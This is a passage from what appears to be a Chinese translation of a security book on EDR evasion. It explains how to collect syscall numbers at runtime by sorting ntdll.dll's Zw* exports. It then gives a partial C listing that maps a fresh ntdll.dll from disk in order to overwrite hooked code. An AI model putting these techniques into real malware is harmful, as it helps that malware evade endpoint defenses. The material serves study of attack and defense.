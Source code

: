 1.  获取当前进程映射的*ntdll.dll*的句柄。

1.  枚举所有以*Zw*开头的导出函数以识别系统调用。请注意，以*Nt*为前缀的函数（这是更常见的形式）在从用户模式调用时也能正常工作。此处选择使用 Zw 版本似乎是任意的。

1.  存储导出的函数名称及其相关的相对虚拟地址。

1.  按相对虚拟地址对字典进行排序。

1.  在字典中排序后，将函数的系统调用号定义为其索引。

使用这种技术，我们可以在运行时收集系统调用号，将其插入到适当位置的存根中，然后像在静态编码方法中一样调用目标函数。

### <samp class="SANS_Futura_Std_Bold_Condensed_Oblique_BI_11">重新映射 ntdll.dll</samp>

另一种常用的规避用户模式函数钩子的技术是将新的*ntdll.dll*加载到进程中，用新加载的文件内容覆盖现有的钩取版本，然后调用所需的函数。这个策略有效，因为新加载的*ntdll.dll*不包含之前加载的版本中实现的钩子，因此当它覆盖被污染的版本时，实际上清除了所有由 EDR 放置的钩子。列表 2-11 展示了一个这一过程的简单示例。为简洁起见，部分行已被省略。

```
int wmain()
{
    HMODULE hOldNtdll = NULL;
    MODULEINFO info = {};
    LPVOID lpBaseAddress = NULL;
    HANDLE hNewNtdll = NULL;
    HANDLE hFileMapping = NULL;
    LPVOID lpFileData = NULL;
    PIMAGE_DOS_HEADER pDosHeader = NULL;
    PIMAGE_NT_HEADERS64 pNtHeader = NULL;

    hOldNtdll = GetModuleHandleW(L"ntdll");
    if (!GetModuleInformation(
        GetCurrentProcess(),
        hOldNtdll,
        &info,
        sizeof(MODULEINFO)))

  ❶ lpBaseAddress = info.lpBaseOfDll;

     hNewNtdll = CreateFileW(
         L"C:\\Windows\\System32\\ntdll.dll",
         GENERIC_READ,
         FILE_SHARE_READ,
         NULL,
         OPEN_EXISTING,
         FILE_ATTRIBUTE_NORMAL,
         NULL);

     hFileMapping = CreateFileMappingW(
         hNewNtdll,
         NULL,
         PAGE_READONLY | SEC_IMAGE,
         0, 0, NULL);

  ❷ lpFileData = MapViewOfFile(
         hFileMapping,
         FILE_MAP_READ,
         0, 0, 0);

    pDosHeader = (PIMAGE_DOS_HEADER)lpBaseAddress;
    pNtHeader = (PIMAGE_NT_HEADERS64)((ULONG_PTR)lpBaseAddress + pDosHeader->e_lfanew); for (int i = 0; i < pNtHeader->FileHeader.NumberOfSections; i++)
    {
        PIMAGE_SECTION_HEADER pSection =
            (PIMAGE_SECTION_HEADER)((ULONG_PTR)IMAGE_FIRST_SECTION(pNtHeader) +
            ((ULONG_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

```